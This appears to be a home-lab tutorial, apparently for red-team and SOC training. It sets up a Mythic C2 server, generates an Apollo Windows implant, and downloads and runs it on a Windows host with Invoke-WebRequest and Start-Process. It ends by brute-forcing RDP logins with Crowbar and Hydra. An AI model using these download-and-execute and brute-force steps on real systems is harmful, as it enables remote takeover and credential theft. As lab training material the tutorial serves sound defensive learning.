 <h2>💻 Demo: Deploying Mythic Server</h2>
<ul>
  <li>Deploy a new server using Vultr (Ubuntu OS, 4GB RAM, Toronto region).</li>
  <li>Download and install Kali Linux locally (VMware image recommended).</li>
  <li>SSH into the Mythic server:</li>
</ul>
<pre><code>ssh root@&lt;server-ip&gt;
</code></pre>

<h2>⚙️ Setting Up Mythic</h2>
<ul>
  <li>Update and upgrade server packages:</li>
</ul>
<pre><code>apt-get update
apt-get upgrade -y
</code></pre>
<ul>
  <li>Install Docker and Docker Compose from the official repository:</li>
</ul>
<pre><code>apt-get remove docker docker-engine docker.io containerd runc -y
apt-get update
apt-get install ca-certificates curl gnupg lsb-release -y
mkdir -p /etc/apt/keyrings
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | gpg --dearmor -o /etc/apt/keyrings/docker.gpg
echo "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.gpg] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" | tee /etc/apt/sources.list.d/docker.list &gt; /dev/null
apt-get update
apt-get install docker-ce docker-ce-cli containerd.io docker-buildx-plugin docker-compose-plugin -y
</code></pre>
<ul>
  <li>Install Make (confirm if needed):</li>
</ul>
<pre><code>apt install make -y
</code></pre>
<ul>
  <li>Clone Mythic repository:</li>
</ul>
<pre><code>git clone https://github.com/its-a-feature/Mythic.git
</code></pre>
<ul>
  <li>Navigate to Mythic directory and run install script:</li>
</ul>
<pre><code>cd Mythic
./install_docker_ubuntu.sh
</code></pre>
<ul>
  <li>Start Docker and verify status:</li>
</ul>
<pre><code>systemctl restart docker
systemctl enable docker
systemctl status docker
</code></pre>
<ul>
  <li>Start Mythic services:</li>
</ul>
<pre><code>make
mythic-cli start
</code></pre>

<h2>🔒 Securing Mythic Server</h2>
<ul>
  <li>Configure Vultr firewall:</li>
  <li>Allow TCP ports 1-65535 for your IP and for your Kali and Windows Server IPs.</li>
  <li>Assign the firewall to the Mythic server instance.</li>
</ul>

<h2>🌐 Accessing Mythic Web GUI</h2>
<ul>
  <li>Access Mythic at:</li>
</ul>
<pre><code>https://&lt;server-ip&gt;:7443
</code></pre>
<ul>
  <li>If HTTPS warning appears, manually prepend <code>https://</code> in URL.</li>
  <li>Find login credentials from <code>.env</code> file:</li>
</ul>
<pre><code>ls -la
cat .env
</code></pre>
<ul>
  <li>Login with <code>mythic_admin</code> and password from <code>.env</code>.</li>
  <li>Switch UI to dark mode by clicking the sun/moon icon.</li>
</ul>

<h2>🛠 Full Post-Setup Mythic Walkthrough</h2>
<ul>
  <li><strong>Install Agent (Apollo):</strong></li>
</ul>
<pre><code>cd ~/Mythic
mythic-cli install github https://github.com/MythicAgents/apollo
</code></pre>
<ul>
  <li><strong>Install C2 Profile (HTTP):</strong></li>
</ul>
<pre><code>mythic-cli install github https://github.com/MythicC2Profiles/http
</code></pre>
<ul>
  <li><strong>Restart Mythic Services:</strong></li>
</ul>
<pre><code>mythic-cli stop
mythic-cli start
</code></pre>
<ul>
  <li><strong>Generate a Payload via Web GUI:</strong></li>
  <li>Payloads &gt; Actions &gt; Generate New Payload</li>
  <li>Choose: Windows, Apollo Agent, HTTP C2 Profile, Output EXE, Fill in Callback Host/Public IP, Port 80.</li>
</ul>
<ul>
  <li><strong>Host the Payload via HTTP Server:</strong></li>
</ul>
<pre><code>python3 -m http.server 9999
</code></pre>
<ul>
  <li><strong>On Windows:</strong> Download the payload</li>
</ul>
<pre><code>Invoke-WebRequest -Uri http://&lt;mythic-ip&gt;:9999/&lt;payload.exe&gt; -OutFile C:\Users\Public\Downloads\payload.exe
</code></pre>
<ul>
  <li><strong>Execute the Payload:</strong></li>
</ul>
<pre><code>Start-Process "C:\Users\Public\Downloads\payload.exe"
</code></pre>
<ul>
  <li><strong>Monitor Callbacks in Mythic GUI:</strong></li>
</ul>
<p>See new callback session &gt; Interact &gt; Run Commands.</p>

<h2>🔨 Brute Force Using Crowbar (or Hydra as Backup)</h2>
<ul>
  <li><strong>Option 1: Crowbar Installation</strong> (preferred if working):</li>
</ul>
<pre><code>sudo apt-get install crowbar -y
</code></pre>
<ul>
  <li><strong>Running Crowbar for RDP Brute Force:</strong></li>
</ul>
<pre><code>crowbar -b rdp -u administrator -C mydfir-wordlist.txt -s &lt;target-ip&gt;/32
</code></pre>
<ul>
  <li><strong>Option 2: Hydra Installation</strong> (if Crowbar fails):</li>
</ul>
<pre><code>sudo apt install hydra -y
</code></pre>
<ul>
  <li><strong>Running Hydra for RDP Brute Force:</strong></li>
</ul>
<pre><code>hydra -l administrator -P mydfir-wordlist.txt rdp://&lt;target-ip&gt;
</code></pre>

<h2>🤔 Conclusion</h2>
<ul>
  <li>Mythic C2 offers a powerful web-based platform for red teaming and SOC defense simulations.</li>
  <li>Crowbar is a lightweight RDP brute force tool; Hydra serves as a reliable fallback.</li>
</ul>


<a href="https://github.com/MythicAgents/Apollo"> Mythic Appollo Commands</a>
